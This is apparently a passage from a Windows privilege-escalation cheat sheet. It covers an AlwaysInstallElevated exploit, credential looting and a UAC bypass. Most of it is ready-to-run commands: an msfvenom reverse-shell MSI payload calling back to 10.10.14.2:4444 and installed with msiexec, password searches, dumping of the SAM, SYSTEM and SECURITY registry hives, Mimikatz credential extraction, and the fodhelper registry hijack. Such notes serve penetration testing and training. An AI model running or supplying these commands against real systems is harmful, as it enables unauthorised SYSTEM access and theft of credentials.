 #### 5. 💥 AlwaysInstallElevated Exploit

If these registry keys exist and are set to 1:

```powershell
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

**💣 Exploit**

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f msi > exploit.msi
msiexec /quiet /qn /i exploit.msi
```

Gives a SYSTEM-level shell.

***

#### 6. 🔐 Credential Looting

**🔍 Search for Passwords**

```powershell
findstr /si password *.txt *.xml *.ini
```

**🧠 Registry and SAM**

```powershell
reg save HKLM\SAM sam
reg save HKLM\SYSTEM system
reg save HKLM\SECURITY security
```

Extract with **secretsdump.py** from Impacket.

**🧰 Mimikatz for Tokens**

```powershell
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

***

#### 7. 🧬 UAC Bypass

If UAC is enabled and you’re in **Administrators** group but not SYSTEM.

```powershell
C:\Windows\System32\fodhelper.exe
```

Payload:

```powershell
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v "DelegateExecute" /f
start fodhelper.exe
```
